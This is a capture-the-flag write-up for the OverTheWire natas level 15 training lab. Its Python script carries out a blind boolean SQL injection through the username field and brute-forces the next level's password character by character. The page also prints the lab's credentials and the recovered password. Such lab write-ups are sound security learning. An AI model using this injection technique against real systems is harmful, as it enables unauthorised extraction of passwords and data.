 # natas 15

Uhh... Honestly I'm not quite sure how I was supposed to do this one. But since I can't print any resources, I am honestly lost.

A friend and I finally come to the conclusion of just bruteforcing it. So that's what we did.


*(You can find this file in /testing/)*
```py
import requests
import string

const = ""
for i in range(len("AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J")):
  for entry in string.ascii_letters + string.digits:
      payload = {'username': 'natas16" AND BINARY password LIKE "{0}%" AND  ""="'.format(const + entry)}
      response = requests.post('http://natas15.natas.labs.overthewire.org/', auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'), data = payload)
      # print(entry)
      if "This user exists." in response.text:
        const += entry
        # print(const)
        break
print(const)
```

Knowing that the password is always the same length, and that it's either a alphebetical character or digit, we basically just checked each position so see what character they are. So the whole code evaluates to a big fat O(62n). But hey, it works. (Oh yeah also SQL columns are case insensitive, so you need to put BINARY in front of the column you're)

> WaIHEacj63wnNIBROHeqi3p9t0m5nhmh